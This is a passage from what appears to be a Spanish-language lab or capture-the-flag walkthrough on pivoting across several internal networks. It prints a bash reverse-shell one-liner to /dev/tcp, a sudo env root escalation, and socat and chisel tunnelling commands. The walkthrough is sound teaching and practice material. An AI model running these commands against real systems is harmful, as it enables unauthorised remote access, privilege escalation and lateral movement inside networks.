 ```
socat tcp-l:4444,fork tcp:30.30.30.2:4444
```

Nos ponemos en escucha por el puerto 443 con netcat

Y en la web terminal ponemos lo siguiente

```
bash -c "bash -i >& /dev/tcp/40.40.40.2/4444 0>&1"
```

Y nos va a dar la reverse shell

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0b363b3e-506a-4a38-8865-0120540c8f82)

Vamos a escalar privilegios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/eb922e75-ed01-4192-861e-47cdfc893253)

Vemos que podemos usar el binario env como root vamos a escalar privilegios de esta forma


```bash
sudo -u root /usr/bin/env /bin/sh
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/22ab52ff-b8f4-41ee-905b-d06a8206cdee)


Ahora vamos a ver que interfaces tiene esta maquina

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0ec2289e-afcc-49f9-ab53-10b4a8928e19)

Vemos que tiene 2, ahora vamos a montar todos los túneles para poder acceder a la maquina en la red 50.50.50.2

En la primera maquina 

```
./socat tcp-l:3333,fork,reuseaddr tcp:10.10.10.1:1234
```

En la segunda maquina

```
./socat tcp-l:3333,fork,reuseaddr tcp:20.20.20.2:3333
```

En la tercera maquina

```
./socat tcp-l:3333,fork,reuseaddr tcp:30.30.30.2:3333
```

Y en la ultima maquina nos pasamos el chisel y hacemos lo siguiente

```
./chisel client 40.40.40.2:3333 R:5555:socks
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/76117dd1-c8d1-4a6c-8240-c71895311481)

